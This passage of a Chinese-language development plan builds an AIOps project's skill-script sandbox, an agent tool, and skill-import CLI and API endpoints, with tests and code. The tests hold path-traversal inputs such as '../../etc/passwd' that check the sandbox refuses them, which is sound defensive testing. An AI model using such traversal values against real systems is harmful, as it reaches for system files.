（同时删掉该函数内已不再使用的 `scan_skill_safety` 局部 import；`parse_frontmatter` 仍被 `review.py` 其他函数使用，保留顶部 import。）

`src/agenticops/skills/curator.py:123`：

```python
        # Only non-human skills age. created_by=user is pinned; agent drafts and
        # imported packages both age because neither was written by the owner.
        if fm.get("created_by") not in ("agent", "imported"):
            continue
```

- [ ] **Step 4: 跑测试确认通过**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_bundle_scan.py tests/test_skills_curator.py tests/test_skill_creation.py tests/test_skills_api.py tests/test_skills_security.py -v`
Expected: PASS（新 4 项 + Curator / promote-rollback / API / security 既有测试不回归）

- [ ] **Step 5: 提交**

```bash
git add src/agenticops/skills/review.py src/agenticops/skills/curator.py tests/test_skill_bundle_scan.py
git commit -m "feat(skills): promote gate scans the whole bundle; curator ages imported skills"
```

---

## Task 7: 沙箱 `skills/sandbox.py`

**Files:**
- Create: `src/agenticops/skills/sandbox.py`
- Test: `tests/test_skill_sandbox.py`

**Interfaces:**
- Consumes: Task 1 的 `settings.skills_sandbox_*`；`loader._validate_skill_name`
- Produces:
  - `@dataclass SandboxResult(exit_code: int, stdout: str, stderr: str, truncated: bool, duration_ms: int, isolation: str)`
  - `detect_isolation() -> str`（`"unshare" | "sandbox-exec" | "none"`，结果缓存于模块级 `_ISOLATION_CACHE`）
  - `run_script(skill_name: str, script: str, args: list[str] | None = None, stdin_text: str | None = None) -> SandboxResult`
  - 内部：`_wrap(cmd, isolation) -> list[str]`、`_resolve_script(skill_name, script) -> Path`、`_SANDBOX_PROFILE`

- [ ] **Step 1: 写失败测试**

新建 `tests/test_skill_sandbox.py`：

```python
"""Restricted skill-script sandbox. Hermetic: no network, no credentials, no real AWS.

Tests that actually execute a script force isolation='none' + require_isolation=False so
they run identically on Linux and macOS; the isolation contract itself is tested separately.
"""

from pathlib import Path

import pytest


SKILL_MD = "---\nname: {name}\ndescription: sandbox probe\n---\n\nbody\n"


@pytest.fixture
def sandbox_env(tmp_path, monkeypatch):
    """Published + draft dirs, sandbox enabled, isolation forced off (portable)."""
    from agenticops.skills import sandbox
    from agenticops.skills.loader import _invalidate_skills_cache

    sdir = tmp_path / "skills"
    ddir = sdir / "draft"
    ddir.mkdir(parents=True)
    monkeypatch.setattr("agenticops.config.settings.skills_dir", sdir, raising=False)
    monkeypatch.setattr("agenticops.config.settings.skills_draft_dir", ddir, raising=False)
    monkeypatch.setattr("agenticops.config.settings.skills_sandbox_enabled", True, raising=False)
    monkeypatch.setattr("agenticops.config.settings.skills_sandbox_require_isolation", False, raising=False)
    monkeypatch.setattr(sandbox, "detect_isolation", lambda: "none")
    _invalidate_skills_cache()
    yield sdir, ddir
    _invalidate_skills_cache()


def _publish(sdir: Path, name: str, files: dict[str, str]) -> Path:
    d = sdir / name
    d.mkdir(parents=True, exist_ok=True)
    (d / "SKILL.md").write_text(SKILL_MD.format(name=name), encoding="utf-8")
    for rel, content in files.items():
        p = d / rel
        p.parent.mkdir(parents=True, exist_ok=True)
        p.write_text(content, encoding="utf-8")
    return d


class TestSandboxGates:
    def test_disabled_refuses(self, sandbox_env, monkeypatch):
        from agenticops.skills.sandbox import run_script

        sdir, _ddir = sandbox_env
        _publish(sdir, "alpha-skill", {"hi.sh": "echo hi\n"})
        monkeypatch.setattr("agenticops.config.settings.skills_sandbox_enabled", False, raising=False)

        with pytest.raises(RuntimeError, match="disabled"):
            run_script("alpha-skill", "hi.sh")

    def test_draft_skill_refuses(self, sandbox_env):
        from agenticops.skills.sandbox import run_script

        _sdir, ddir = sandbox_env
        _publish(ddir, "draft-skill", {"hi.sh": "echo hi\n"})

        with pytest.raises(RuntimeError, match="draft"):
            run_script("draft-skill", "hi.sh")

    def test_unknown_skill_refuses(self, sandbox_env):
        from agenticops.skills.sandbox import run_script

        with pytest.raises(RuntimeError, match="not found"):
            run_script("ghost-skill", "hi.sh")

    @pytest.mark.parametrize("bad", ["../../etc/passwd", "/etc/passwd", "../draft/x.sh"])
    def test_script_path_traversal_refused(self, sandbox_env, bad):
        from agenticops.skills.sandbox import run_script

        sdir, _ddir = sandbox_env
        _publish(sdir, "alpha-skill", {"hi.sh": "echo hi\n"})

        with pytest.raises(RuntimeError, match="escapes|does not exist"):
            run_script("alpha-skill", bad)

    def test_non_allowlisted_suffix_refused(self, sandbox_env):
        from agenticops.skills.sandbox import run_script

        sdir, _ddir = sandbox_env
        _publish(sdir, "alpha-skill", {"tool.rb": "puts 1\n"})

        with pytest.raises(RuntimeError, match="not allowed"):
            run_script("alpha-skill", "tool.rb")

    def test_bad_skill_name_refused(self, sandbox_env):
        from agenticops.skills.sandbox import run_script

        with pytest.raises(RuntimeError, match="invalid skill name"):
            run_script("../evil", "hi.sh")

    def test_missing_isolator_refuses_when_required(self, sandbox_env, monkeypatch):
        from agenticops.skills.sandbox import run_script

        sdir, _ddir = sandbox_env
        _publish(sdir, "alpha-skill", {"hi.sh": "echo hi\n"})
        monkeypatch.setattr("agenticops.config.settings.skills_sandbox_require_isolation", True, raising=False)

        with pytest.raises(RuntimeError, match="no network isolator"):
            run_script("alpha-skill", "hi.sh")

    def test_isolation_field_reports_truthfully(self, sandbox_env, monkeypatch):
        """打桩隔离器可用 → 字段如实报告（_wrap 打成 identity 以保持跨平台）。"""
        from agenticops.skills import sandbox

        sdir, _ddir = sandbox_env
        _publish(sdir, "alpha-skill", {"hi.sh": "echo hi\n"})
        monkeypatch.setattr(sandbox, "detect_isolation", lambda: "unshare")
        monkeypatch.setattr(sandbox, "_wrap", lambda cmd, isolation: cmd)

        res = sandbox.run_script("alpha-skill", "hi.sh")
        assert res.isolation == "unshare"
        assert res.exit_code == 0


class TestSandboxExecution:
    def test_env_has_no_credentials(self, sandbox_env, monkeypatch):
        """env 从空 dict 起建 → 键集合 ⊆ {PATH, HOME, LANG}，结构上不可能有 AWS_*。"""
        from agenticops.skills.sandbox import run_script

        monkeypatch.setenv("AWS_SESSION_TOKEN", "test-placeholder-not-a-real-token")
        monkeypatch.setenv("AIOPS_DATABASE_URL", "sqlite:///test.db")

        sdir, _ddir = sandbox_env
        _publish(sdir, "alpha-skill", {"env.py": "import os\nprint('\\n'.join(sorted(os.environ)))\n"})

        res = run_script("alpha-skill", "env.py")
        assert res.exit_code == 0, res.stderr
        keys = {k for k in res.stdout.splitlines() if k}
        assert keys <= {"PATH", "HOME", "LANG"}, f"unexpected env leaked: {keys}"
        for k in keys:
            assert not k.startswith(("AWS_", "AIOPS_"))
            assert "SECRET" not in k and "TOKEN" not in k

    def test_stdout_stderr_and_exit_code(self, sandbox_env):
        from agenticops.skills.sandbox import run_script

        sdir, _ddir = sandbox_env
        _publish(sdir, "alpha-skill", {
            "split.sh": "echo to-out\necho to-err >&2\nexit 3\n",
        })
        res = run_script("alpha-skill", "split.sh")
        assert res.exit_code == 3
        assert "to-out" in res.stdout and "to-out" not in res.stderr
        assert "to-err" in res.stderr

    def test_args_and_stdin(self, sandbox_env):
        from agenticops.skills.sandbox import run_script

        sdir, _ddir = sandbox_env
        _publish(sdir, "alpha-skill", {
            "echo.py": "import sys\nprint('ARG=' + sys.argv[1])\nprint('IN=' + sys.stdin.read().strip())\n",
        })
        res = run_script("alpha-skill", "echo.py", args=["hello"], stdin_text="piped\n")
        assert "ARG=hello" in res.stdout
        assert "IN=piped" in res.stdout

    def test_timeout_kills(self, sandbox_env, monkeypatch):
        import time

        from agenticops.skills.sandbox import run_script

        monkeypatch.setattr("agenticops.config.settings.skills_sandbox_timeout_seconds", 2, raising=False)
        sdir, _ddir = sandbox_env
        _publish(sdir, "alpha-skill", {"slow.sh": "sleep 999\n"})

        started = time.monotonic()
        res = run_script("alpha-skill", "slow.sh")
        elapsed = time.monotonic() - started
        assert res.exit_code == -1
        assert "timeout" in res.stderr.lower()
        assert elapsed < 20, f"timeout did not kill promptly ({elapsed:.1f}s)"

    def test_output_truncated(self, sandbox_env, monkeypatch):
        from agenticops.skills.sandbox import run_script

        monkeypatch.setattr("agenticops.config.settings.skills_sandbox_max_output_chars", 500, raising=False)
        sdir, _ddir = sandbox_env
        _publish(sdir, "alpha-skill", {"loud.py": "print('x' * 100000)\n"})

        res = run_script("alpha-skill", "loud.py")
        assert res.truncated is True
        assert len(res.stdout) <= 500

    def test_workdir_is_one_shot_and_skill_dir_untouched(self, sandbox_env):
        from agenticops.skills.sandbox import run_script

        sdir, _ddir = sandbox_env
        skill = _publish(sdir, "alpha-skill", {
            "write.py": (
                "import os\n"
                "open('artifact.txt', 'w').write('x')\n"
                "print(os.getcwd())\n"
            ),
        })
        before = sorted(p.name for p in skill.iterdir())

        res = run_script("alpha-skill", "write.py")
        cwd = Path(res.stdout.strip().splitlines()[-1])
        assert not cwd.exists(), "sandbox workdir must be deleted after the run"
        assert sorted(p.name for p in skill.iterdir()) == before
        assert not (skill / "artifact.txt").exists()

    def test_duration_is_reported(self, sandbox_env):
        from agenticops.skills.sandbox import run_script

        sdir, _ddir = sandbox_env
        _publish(sdir, "alpha-skill", {"hi.sh": "echo hi\n"})
        res = run_script("alpha-skill", "hi.sh")
        assert res.duration_ms >= 0 and res.isolation == "none"


class TestDetectIsolation:
    def test_returns_a_known_value(self, monkeypatch):
        from agenticops.skills import sandbox

        monkeypatch.setattr(sandbox, "_ISOLATION_CACHE", None, raising=False)
        assert sandbox.detect_isolation() in ("unshare", "sandbox-exec", "none")

    def test_none_when_no_isolator_present(self, monkeypatch):
        from agenticops.skills import sandbox

        monkeypatch.setattr(sandbox, "_ISOLATION_CACHE", None, raising=False)
        monkeypatch.setattr(sandbox.shutil, "which", lambda _n: None)
        assert sandbox.detect_isolation() == "none"

    def test_wrap_shapes(self):
        from agenticops.skills.sandbox import _wrap

        assert _wrap(["python", "x.py"], "unshare")[:3] == ["unshare", "-n", "--"]
        wrapped = _wrap(["python", "x.py"], "sandbox-exec")
        assert wrapped[0] == "sandbox-exec" and "deny network*" in wrapped[2]
        assert _wrap(["python", "x.py"], "none") == ["python", "x.py"]
```

- [ ] **Step 2: 跑测试确认失败**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_sandbox.py -v`
Expected: FAIL —— `ModuleNotFoundError: No module named 'agenticops.skills.sandbox'`

- [ ] **Step 3: 最小实现**

新建 `src/agenticops/skills/sandbox.py`：

```python
"""Restricted sandbox for skill-owned scripts (*.py / *.sh).

A new execution channel, orthogonal to run_on_host / run_kubectl. In order of
trust, every run gets:

1. published skills only (drafts are refused — approval comes first);
2. a path-traversal guard on the script, plus an interpreter allowlist keyed on
   suffix (never a shebang, never the exec bit, never shell=True);
3. an env built from an EMPTY dict — only PATH/HOME/LANG — so no AWS_* or
   AIOPS_* variable can structurally appear inside the child;
4. network isolation via `unshare -n` (Linux) or `sandbox-exec` (macOS); with
   skills_sandbox_require_isolation set (the default) a missing isolator means
   REFUSE, never a silent unisolated run. We never claim isolation we don't have;
5. a one-shot temp cwd (deleted afterwards, so scripts cannot write back into
   the skill package), a timeout that kills the process group, and output
   truncation.

The sandbox has no credentials and no network on purpose: skill scripts are for
local computation (parsing logs/JSON, statistics, report shaping). Anything that
needs a cloud API still goes through run_aws_cli / run_on_host / run_kubectl and
their existing three-tier gates.
"""

from __future__ import annotations

import logging
import os
import shutil
import signal
import subprocess
import sys
import tempfile
import time
from dataclasses import dataclass
from pathlib import Path

from agenticops.config import settings
from agenticops.skills.loader import _validate_skill_name

logger = logging.getLogger(__name__)

# macOS seatbelt profile: everything allowed except the network.
_SANDBOX_PROFILE = "(version 1)(allow default)(deny network*)"

_ISOLATION_CACHE: str | None = None


@dataclass
class SandboxResult:
    exit_code: int
    stdout: str
    stderr: str
    truncated: bool
    duration_ms: int
    isolation: str          # 'unshare' | 'sandbox-exec' | 'none'


def detect_isolation() -> str:
    """Probe for a usable network isolator. Cached — the answer cannot change."""
    global _ISOLATION_CACHE
    if _ISOLATION_CACHE is not None:
        return _ISOLATION_CACHE

    result = "none"
    if sys.platform.startswith("linux") and shutil.which("unshare"):
        try:
            probe = subprocess.run(
                ["unshare", "-n", "--", "true"],
                capture_output=True, shell=False, timeout=10,
            )
            if probe.returncode == 0:
                result = "unshare"
        except (OSError, subprocess.SubprocessError):
            result = "none"
    elif sys.platform == "darwin" and shutil.which("sandbox-exec"):
        result = "sandbox-exec"

    if result == "none":
        logger.warning(
            "No skill-script network isolator available on this host "
            "(need `unshare -n` on Linux or `sandbox-exec` on macOS)"
        )
    _ISOLATION_CACHE = result
    return result


def _wrap(cmd: list[str], isolation: str) -> list[str]:
    if isolation == "unshare":
        return ["unshare", "-n", "--", *cmd]
    if isolation == "sandbox-exec":
        return ["sandbox-exec", "-p", _SANDBOX_PROFILE, *cmd]
    return cmd


def _resolve_script(skill_name: str, script: str) -> Path:
    """Published-skill + path-traversal + suffix-allowlist resolution."""
    name = (skill_name or "").strip()
    skill_dir = settings.skills_dir / name
    if not _validate_skill_name(name, skill_dir):
        raise RuntimeError(f"invalid skill name: {skill_name!r}")

    if not (skill_dir / "SKILL.md").is_file():
        if (settings.skills_draft_dir / name / "SKILL.md").is_file():
            raise RuntimeError(
                f"skill '{name}' is still a draft — promote it before running its scripts"
            )
        raise RuntimeError(f"published skill not found: {name}")

    root = skill_dir.resolve()
    target = (skill_dir / script).resolve()
    if not str(target).startswith(str(root) + os.sep):
        raise RuntimeError(f"script path escapes the skill package: {script}")
    if not target.is_file():
        raise RuntimeError(f"script does not exist: {script}")

    interpreters = settings.skills_sandbox_interpreters
    if target.suffix.lower() not in interpreters:
        raise RuntimeError(
            f"script type not allowed: {target.suffix} (allowed: {sorted(interpreters)})"
        )
    return target


def run_script(
    skill_name: str,
    script: str,
    args: list[str] | None = None,
    stdin_text: str | None = None,
) -> SandboxResult:
    """Run a PUBLISHED skill's script in the restricted sandbox.

    Raises RuntimeError for every refusal (disabled, draft, bad path, bad
    suffix, no isolator). A script that runs and fails returns a SandboxResult
    with its exit code — a refusal is never reported as a failed run.
    """
    if not settings.skills_sandbox_enabled:
        raise RuntimeError("skill script sandbox is disabled (skills_sandbox_enabled=false)")

    target = _resolve_script(skill_name, script)

    isolation = detect_isolation()
    if isolation == "none" and settings.skills_sandbox_require_isolation:
        raise RuntimeError(
            "no network isolator available (unshare -n / sandbox-exec) — refusing to run; "
            "set skills_sandbox_require_isolation=false to accept an explicitly UNISOLATED run"
        )

    interpreter = settings.skills_sandbox_interpreters[target.suffix.lower()]
    if interpreter == "python":
        interpreter = sys.executable

    workdir = Path(tempfile.mkdtemp(prefix="aiops-skill-sandbox-"))
    timeout = settings.skills_sandbox_timeout_seconds
    try:
        local = workdir / target.name
        shutil.copy2(target, local)
        os.chmod(local, 0o600)                       # no exec bit — we name the interpreter

        # Built from an EMPTY dict: no os.environ inheritance, so no AWS_*/AIOPS_*.
        env = {"PATH": "/usr/bin:/bin", "HOME": str(workdir), "LANG": "C.UTF-8"}
        cmd = _wrap([interpreter, str(local), *(args or [])], isolation)

        started = time.monotonic()
        proc = subprocess.Popen(
            cmd, cwd=str(workdir), env=env, shell=False, text=True,
            stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE,
            start_new_session=True,                  # own process group, so we can kill it whole
        )
        try:
            out, err = proc.communicate(input=stdin_text or "", timeout=timeout)
            exit_code = proc.returncode
        except subprocess.TimeoutExpired:
            try:
                os.killpg(os.getpgid(proc.pid), signal.SIGKILL)
            except (ProcessLookupError, PermissionError, OSError):
                proc.kill()
            out, err = proc.communicate()
            exit_code = -1
            err = (err or "") + f"\n[sandbox] killed after {timeout}s timeout"
        duration_ms = int((time.monotonic() - started) * 1000)

        cap = settings.skills_sandbox_max_output_chars
        out, err = out or "", err or ""
        truncated = len(out) > cap or len(err) > cap
        logger.info(
            "Sandbox ran %s/%s: exit=%s isolation=%s duration_ms=%s%s",
            skill_name, script, exit_code, isolation, duration_ms,
            " (UNISOLATED)" if isolation == "none" else "",
        )
        return SandboxResult(
            exit_code=exit_code,
            stdout=out[:cap],
            stderr=err[:cap],
            truncated=truncated,
            duration_ms=duration_ms,
            isolation=isolation,
        )
    finally:
        shutil.rmtree(workdir, ignore_errors=True)
```

- [ ] **Step 4: 跑测试确认通过**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_sandbox.py -v`
Expected: PASS（21 项；`test_timeout_kills` 约耗 2s）

- [ ] **Step 5: 提交**

```bash
git add src/agenticops/skills/sandbox.py tests/test_skill_sandbox.py
git commit -m "feat(skills): restricted script sandbox (no credentials, no network, refuse without isolator)"
```

---

## Task 8: Agent 工具 `run_skill_script`

**Files:**
- Modify: `src/agenticops/skills/tools.py`（文件末尾追加 + 顶部 docstring 补一行）
- Modify: `src/agenticops/agents/executor_agent.py`（`:45` import、`:262` 工具列表）
- Test: `tests/test_skill_sandbox.py`（追加）

**Interfaces:**
- Consumes: Task 7 的 `run_script` / `SandboxResult`
- Produces: `@tool run_skill_script(skill_name: str, script: str, args: str = "", stdin_text: str = "") -> str`（返回人读文本；拒绝时返回以 `Sandbox refused` 或 `disabled` 开头的字符串，**不抛异常**——Strands 工具必须返回字符串）

- [ ] **Step 1: 写失败测试**

追加到 `tests/test_skill_sandbox.py`：

```python
class TestRunSkillScriptTool:
    def test_returns_disabled_message_without_starting_a_process(self, sandbox_env, monkeypatch):
        from agenticops.skills import sandbox
        from agenticops.skills.tools import run_skill_script

        sdir, _ddir = sandbox_env
        _publish(sdir, "alpha-skill", {"hi.sh": "echo hi\n"})
        monkeypatch.setattr("agenticops.config.settings.skills_sandbox_enabled", False, raising=False)

        called = []
        monkeypatch.setattr(sandbox, "run_script", lambda *a, **k: called.append(1))

        out = run_skill_script("alpha-skill", "hi.sh")
        assert "disabled" in out.lower()
        assert called == [], "must not start a process when disabled"

    def test_formats_a_successful_run(self, sandbox_env):
        from agenticops.skills.tools import run_skill_script

        sdir, _ddir = sandbox_env
        _publish(sdir, "alpha-skill", {"hi.sh": "echo hello-sandbox\n"})

        out = run_skill_script("alpha-skill", "hi.sh")
        assert "exit_code=0" in out
        assert "isolation=none" in out
        assert "hello-sandbox" in out

    def test_refusal_is_returned_not_raised(self, sandbox_env):
        from agenticops.skills.tools import run_skill_script

        sdir, _ddir = sandbox_env
        _publish(sdir, "alpha-skill", {"hi.sh": "echo hi\n"})

        out = run_skill_script("alpha-skill", "../../etc/passwd")
        assert out.startswith("Sandbox refused")

    def test_args_string_is_split_shell_style(self, sandbox_env):
        from agenticops.skills.tools import run_skill_script

        sdir, _ddir = sandbox_env
        _publish(sdir, "alpha-skill", {
            "args.py": "import sys\nprint('|'.join(sys.argv[1:]))\n",
        })
        out = run_skill_script("alpha-skill", "args.py", args="a 'b c' d")
        assert "a|b c|d" in out
```

- [ ] **Step 2: 跑测试确认失败**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_sandbox.py::TestRunSkillScriptTool -v`
Expected: FAIL —— `ImportError: cannot import name 'run_skill_script'`

- [ ] **Step 3: 最小实现**

追加到 `src/agenticops/skills/tools.py` 末尾：

```python
@tool
def run_skill_script(skill_name: str, script: str, args: str = "", stdin_text: str = "") -> str:
    """Run a script that ships inside a PUBLISHED skill package, in a restricted sandbox.

    The sandbox has NO credentials and NO network: use it for local computation
    only (parsing logs/JSON, statistics, shaping a report). Anything needing a
    cloud API must go through run_aws_cli / run_on_host / run_kubectl instead.
    Draft skills are refused — a skill must be promoted first.

    Args:
        skill_name: Name of a published skill (e.g. 'log-analysis').
        script: Path of the script inside that skill package (e.g. 'parse.py').
        args: Optional shell-style argument string (split with shlex, not a shell).
        stdin_text: Optional text piped to the script's stdin.

    Returns:
        Human-readable run summary with exit code, isolation mode, stdout and stderr,
        or a message starting with 'Sandbox refused' / 'disabled' when it did not run.
    """
    import shlex

    from agenticops.config import settings

    if not getattr(settings, "skills_sandbox_enabled", False):
        return (
            "Skill script sandbox is disabled (skills_sandbox_enabled=false). "
            "Ask an operator to enable it in config/settings.yaml."
        )

    from agenticops.skills.sandbox import run_script

    try:
        parsed = shlex.split(args) if args else None
    except ValueError as e:
        return f"Sandbox refused to run: unparsable args ({e})"

    try:
        res = run_script(skill_name, script, parsed, stdin_text or None)
    except Exception as e:
        return f"Sandbox refused to run: {e}"

    header = (
        f"exit_code={res.exit_code} isolation={res.isolation} duration_ms={res.duration_ms}"
        + (" (output truncated)" if res.truncated else "")
    )
    parts = [header]
    if res.stdout:
        parts.append(f"--- stdout ---\n{res.stdout}")
    if res.stderr:
        parts.append(f"--- stderr ---\n{res.stderr}")
    return "\n".join(parts)
```

并把顶部 docstring 的工具清单补一行：

```python
- run_skill_script: Run a published skill's own *.py/*.sh in the restricted sandbox (no creds, no network)
```

`src/agenticops/agents/executor_agent.py:45` 改为：

```python
from agenticops.skills.tools import activate_skill, read_skill_reference, run_skill_script
```

`:262` 的工具列表里，`read_skill_reference,` 之后插入：

```python
                # Skill-owned scripts — restricted sandbox (no creds, no network); off by default
                *([run_skill_script] if settings.skills_sandbox_enabled else []),
```

（`executor_agent.py` 若未在该作用域引入 `settings`，用 `from agenticops.config import settings` 补在函数内 import 区，与文件既有风格一致。）

- [ ] **Step 4: 跑测试确认通过**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_sandbox.py tests/test_skill_tools.py tests/test_skill_tools_coverage.py -v && python -m py_compile src/agenticops/agents/executor_agent.py`
Expected: PASS（沙箱 25 项 + 既有 skill tools 测试不回归；executor_agent 编译通过）

- [ ] **Step 5: 提交**

```bash
git add src/agenticops/skills/tools.py src/agenticops/agents/executor_agent.py tests/test_skill_sandbox.py
git commit -m "feat(skills): run_skill_script agent tool, gated and wired into executor"
```

---

## Task 9: 入口 —— CLI `aiops skills import` + `POST /api/skills/import-source`

**Files:**
- Modify: `src/agenticops/cli/main.py`（`:243` `app.add_typer(...)` 组后加一行注册；命令函数放在文件既有 `@app.command()` 区域之后）
- Modify: `src/agenticops/web/app.py`（在既有 import 端点结束处 `:3923` 之后插入）
- Test: `tests/test_skill_sources.py`（追加 CLI + API 两组）

**Interfaces:**
- Consumes: Task 4 的 `import_skills` / `ImportResult`
- Produces:
  - CLI：`aiops skills import <uri> [--name N ...] [--json]`，退出码 0（有 installed）/ 1（无 installed 或整源失败）
  - Web：`POST /api/skills/import-source`，body `{"uri": str, "names": [str] | null}`，200 返回 `{source_uri, source_ref, installed:[{name,path,files,bytes}], skipped:[{name,reason}], rejected:[{name,reason}]}`；`ValueError` → 400，`RuntimeError` → 403
  - Pydantic 模型 `SkillImportSourceRequest(uri: str, names: list[str] | None = None)`

- [ ] **Step 1: 写失败测试**

追加到 `tests/test_skill_sources.py`：

```python
class TestImportEntrypoints:
    def test_cli_import_reports_three_buckets(self, tmp_path, skill_dirs):
        from typer.testing import CliRunner

        from agenticops.cli.main import app

        _sdir, ddir = skill_dirs
        src = tmp_path / "src"
        _make_pkg(src, "alpha-skill")
        bad = _make_pkg(src, "bad-skill")
        (bad / "payload.so").write_bytes(b"\x00")

        result = CliRunner().invoke(app, ["skills", "import", str(src)])
        assert result.exit_code == 0, result.output
        assert "alpha-skill" in result.output
        assert "bad-skill" in result.output
        assert (ddir / "alpha-skill" / "SKILL.md").is_file()

    def test_cli_import_exit_1_when_nothing_installed(self, tmp_path, skill_dirs):
        from typer.testing import CliRunner

        from agenticops.cli.main import app

        result = CliRunner().invoke(app, ["skills", "import", str(tmp_path / "nope")])
        assert result.exit_code == 1
        assert "failed" in result.output.lower() or "unsupported" in result.output.lower()

    def test_cli_name_filter(self, tmp_path, skill_dirs):
        from typer.testing import CliRunner

        from agenticops.cli.main import app

        _sdir, ddir = skill_dirs
        src = tmp_path / "src"
        for n in ("alpha-skill", "beta-skill"):
            _make_pkg(src, n)

        result = CliRunner().invoke(app, ["skills", "import", str(src), "--name", "beta-skill"])
        assert result.exit_code == 0, result.output
        assert (ddir / "beta-skill").is_dir()
        assert not (ddir / "alpha-skill").exists()

    def test_api_import_source(self, tmp_path, skill_dirs):
        from fastapi.testclient import TestClient

        from agenticops.web.app import app as web_app

        _sdir, ddir = skill_dirs
        src = tmp_path / "src"
        _make_pkg(src, "alpha-skill")

        with TestClient(web_app) as client:
            resp = client.post("/api/skills/import-source", json={"uri": str(src)})
        assert resp.status_code == 200, resp.text
        body = resp.json()
        assert [s["name"] for s in body["installed"]] == ["alpha-skill"]
        assert body["source_ref"] == "local-dir"
        assert body["skipped"] == [] and body["rejected"] == []
        assert (ddir / "alpha-skill" / "SKILL.md").is_file()

    def test_api_import_source_bad_uri_is_400(self, skill_dirs):
        from fastapi.testclient import TestClient

        from agenticops.web.app import app as web_app

        with TestClient(web_app) as client:
            resp = client.post("/api/skills/import-source", json={"uri": "ftp://example.invalid/x"})
        assert resp.status_code == 400
        assert "unsupported" in resp.json()["detail"].lower()

    def test_api_import_source_disabled_is_403(self, tmp_path, skill_dirs, monkeypatch):
        from fastapi.testclient import TestClient

        from agenticops.web.app import app as web_app

        monkeypatch.setattr("agenticops.config.settings.skills_import_enabled", False, raising=False)
        src = tmp_path / "src"
        _make_pkg(src, "alpha-skill")

        with TestClient(web_app) as client:
            resp = client.post("/api/skills/import-source", json={"uri": str(src)})
        assert resp.status_code == 403

    def test_legacy_upload_endpoint_still_exists(self):
        """R1：既有 multipart /api/skills/import 不得被破坏（前端 useSkills.ts 在用）。"""
        from agenticops.web.app import app as web_app

        paths = {r.path for r in web_app.routes}
        assert "/api/skills/import" in paths
        assert "/api/skills/import-source" in paths
```

- [ ] **Step 2: 跑测试确认失败**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_sources.py::TestImportEntrypoints -v`
Expected: FAIL —— CLI 报 `No such command 'skills'`；API 报 404

- [ ] **Step 3: 最小实现**

`src/agenticops/cli/main.py`，在 `service_app = typer.Typer(...)` 一组旁加：

```python
skills_app = typer.Typer(help="Manage Agent Skills (import from URL / git repo / zip)")
```

并在 `app.add_typer(service_app, name="service")` 之后：

```python
app.add_typer(skills_app, name="skills")
```

命令函数（放在文件既有 `@app.command()` 定义区之后；`import` 是关键字，所以函数名与命令名分开——R3）：

```python
@skills_app.command("import")
def skills_import(
    uri: str = typer.Argument(..., help="URL, git repo (git+https://…[@ref][#subdir]), zip/tar.gz, or local path"),
    name: list[str] = typer.Option(None, "--name", "-n", help="Only import these skill names (repeatable)"),
    as_json: bool = typer.Option(False, "--json", help="Print the raw result as JSON"),
):
    """Import skills from a wide source. Everything lands as a DRAFT — review and promote it before use."""
    from agenticops.skills.sources import import_skills

    try:
        res = import_skills(uri, list(name) if name else None)
    except Exception as e:
        console.print(f"[red]Import failed:[/red] {e}")
        raise typer.Exit(1)

    payload = {
        "source_uri": res.source_uri,
        "source_ref": res.source_ref,
        "installed": [
            {"name": s.name, "path": str(s.path), "files": s.files, "bytes": s.bytes}
            for s in res.installed
        ],
        "skipped": [{"name": n, "reason": r} for n, r in res.skipped],
        "rejected": [{"name": n, "reason": r} for n, r in res.rejected],
    }
    if as_json:
        console.print_json(data=payload)
    else:
        console.print(f"[bold]Source:[/bold] {res.source_uri}  [dim]ref={res.source_ref[:12]}[/dim]")
        if res.installed:
            console.print(f"[green]Installed as draft ({len(res.installed)}):[/green]")
            for s in res.installed:
                console.print(f"  • {s.name}  [dim]{s.files} files, {s.bytes} bytes → {s.path}[/dim]")
        if res.skipped:
            console.print(f"[yellow]Skipped ({len(res.skipped)}):[/yellow]")
            for n, r in res.skipped:
                console.print(f"  • {n}: {r}")
        if res.rejected:
            console.print(f"[red]Rejected ({len(res.rejected)}):[/red]")
            for n, r in res.rejected:
                console.print(f"  • {n}: {r}")
        if res.installed:
            console.print(
                "\n[dim]Drafts are not active yet. Review, then promote:[/dim] "
                f"[cyan]aiops chat[/cyan] → [cyan]/skill promote <name>[/cyan]"
            )

    if not res.installed:
        raise typer.Exit(1)
```

`src/agenticops/web/app.py`，在既有 `api_import_skill` 函数结束之后插入：

```python
class SkillImportSourceRequest(BaseModel):
    uri: str
    names: list[str] | None = None


@app.post("/api/skills/import-source")
async def api_import_skill_source(req: SkillImportSourceRequest):
    """Import skills from a URL / git repo / zip archive. Everything lands as a DRAFT.

    Distinct from POST /api/skills/import, which takes a multipart file upload.
    """
    from agenticops.skills.sources import import_skills

    try:
        res = await asyncio.to_thread(import_skills, req.uri, req.names)
    except RuntimeError as e:
        raise HTTPException(status_code=403, detail=str(e))
    except ValueError as e:
        raise HTTPException(status_code=400, detail=str(e))
    except Exception as e:
        raise HTTPException(status_code=400, detail=f"skill import failed: {e}")

    return {
        "source_uri": res.source_uri,
        "source_ref": res.source_ref,
        "installed": [
            {"name": s.name, "path": str(s.path), "files": s.files, "bytes": s.bytes}
            for s in res.installed
        ],
        "skipped": [{"name": n, "reason": r} for n, r in res.skipped],
        "rejected": [{"name": n, "reason": r} for n, r in res.rejected],
    }
```

- [ ] **Step 4: 跑测试确认通过**

Run: `source .venv/bin/activate && python -m pytest tests/test_skill_sources.py tests/test_skills_api.py -v && python -m py_compile src/agenticops/web/app.py src/agenticops/cli/main.py`
Expected: PASS（摄入层 44 项 + 既有 skills API 测试全绿，含原 multipart import 的 5 项）

- [ ] **Step 5: 提交**

```bash
git add src/agenticops/cli/main.py src/agenticops/web/app.py tests/test_skill_sources.py
git commit -m "feat(skills): CLI `aiops skills import` and POST /api/skills/import-source"
```

---

## Task 10: 文档同步 + 全量回归

**Files:**
- Modify: `CLAUDE.md`（`### Skills (skills/)` 段落）
- Modify: `docs/WORKFLOW.md`
- Modify: `skills/ADDING_SKILLS.md`
- Modify: `CLAUDE.md` 的 Key Configuration 表（10 个新字段）

**Interfaces:**
- Consumes: Task 1–9 的全部实现
- Produces: 无代码接口，仅文档

- [ ] **Step 1: 全量回归（先证明代码是绿的，再写文档）**

Run:
```bash
